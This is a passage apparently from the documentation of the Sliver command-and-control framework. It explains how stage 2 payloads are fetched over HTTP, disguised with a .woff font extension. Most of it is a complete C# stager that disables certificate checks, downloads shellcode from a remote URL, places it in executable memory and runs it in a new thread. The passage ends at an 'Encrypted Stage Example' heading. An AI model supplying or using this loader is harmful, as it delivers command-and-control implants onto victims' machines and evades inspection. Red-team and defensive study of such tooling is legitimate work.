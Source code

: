 The default file extension used to retrieve a stage 2 payload is `.woff`. It can be configured in the [HTTP C2 options](/docs?name=HTTPS+C2) using the `stager_file_ext` setting.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http://SLIVER-SERVER:STAGING-PORT/whatever.woff`.

Here is a C# example of a custom HTTP stager, make sure to compile the C# code for the correct CPU architecture e.g. `/platform:x64`:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private static string url = "http://a.bc/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

## Encrypted Stage Example
